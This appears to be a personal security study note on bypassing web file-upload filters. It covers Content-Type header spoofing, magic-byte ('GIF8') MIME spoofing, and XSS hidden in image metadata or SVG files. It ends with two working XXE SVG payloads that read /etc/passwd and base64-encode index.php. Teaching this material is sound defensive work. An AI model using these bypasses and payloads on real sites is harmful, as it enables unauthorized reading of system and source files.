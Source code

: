 ### Content-Type

Example PHP code of how the website checks content-type:
```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```
The $type variable is set from the Content-Type header. This is set client-side by the browser, so we can manipulate it and possibly bypass the type filter.  We can start by fuzzing the content-type wordlist through Burp or ZAP.  We can extract image file types from the list like so:
```shell-session
user@computer $ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/web/content-type.txt
user@computer $ cat content-type.txt | grep 'image/' > image-content-types.txt
```

### MIME-type

MIME (Multipurpose Internet Mail Extensions)-type.  The file's content is determined through its general format and bytes structure.  The first few bytes contain the **file signature** or **magic bytes**.

MIME types can be validated by web servers using the mime_content_type() function in PHP.

The GIF file type has a text signature that can be mimicked by "GIF8".  Sometime this is enough to bypass an image filter that uses MIME detection.

File upload vulnerabilities can allow us to introduce a [[Cybersecurity/Bug Bounty Hunter/Cross-Site Scripting/Stored (Persistent) XSS\|Stored XSS]] vulnerability.

Another example of XSS attacks is web applications that display an image's metadata after its payload.  We can include an XSS payload in one of the Metadata parameters that accept raw text like the **Comment** or **artist** field.

[[Programming/Scalable Vector Graphcs\|Scalable Vector Graphcs]] images are xml-based and describe 2d vector graphics, which the browser renders into an image.  WE can modify the xml data to include an XSS payload.

### XXE

Similar attacks can be carried to lead to XXE exploitation.  This an SVG image that leaks the content of /etc/passwd.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

XXE can also be used to locate and read source code in php web apps.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
